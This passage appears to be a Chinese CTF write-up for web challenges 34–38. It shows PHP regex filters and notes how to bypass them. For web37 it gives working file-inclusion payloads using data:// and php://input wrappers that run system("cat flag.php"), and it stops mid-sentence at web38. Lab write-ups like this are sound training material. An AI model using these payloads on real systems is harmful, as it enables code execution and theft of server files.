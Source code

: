 ## web34

```php
preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)
```

又多过滤了个冒号，无影响，payload同上一题

## web35

```php
preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)
```

又多加了小于号和等号，无影响，payload同上题

## web36

```php
preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)
```

有多过滤了数字，payload同上题，只要改二次传参的参数，`0`替换成`a`

## web37

```php
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

文件包含，用伪协议读文件，`payload：/?c=data://text/plain,<?php system("cat fl*"); ?>`，然后查看源码就行

也可以，`/?c=php://input    POST：<?php system("cat flag.php"); ?>`

## web38

```php
preg_match("/flag|php|file/i", $c)
```

多过滤了`php`和`file`，所以php标记不能直接用，那就编码绕过，最终
